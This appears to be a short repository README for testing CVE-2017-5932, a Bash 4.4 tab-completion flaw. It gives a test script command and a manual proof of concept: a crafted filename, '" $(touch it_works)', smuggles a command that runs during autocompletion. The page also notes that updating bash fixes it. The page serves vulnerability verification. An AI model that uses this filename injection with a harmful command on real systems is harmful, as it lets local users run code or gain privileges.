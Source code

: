 # CVE-2017-5932

### Description
The path autocompletion feature in Bash 4.4 allows local users to gain privileges via a crafted filename starting with a " (double quote) character and a command substitution metacharacter.
### Command to run
```shell
python cve_debian.py --number 2017-5932 --release bullseye --directory bash --selenium
```

### Simple testing method

```shell
su toto;
cd
touch '" $(touch it_works)'
rm \" $(touch it_works) ^C #Type auto-completion key after " and then cancel 
ls
```
The file `it_works` is created.

If bash is updated :
```shell
apt-get install bash
```
The vulnerability is fixed.
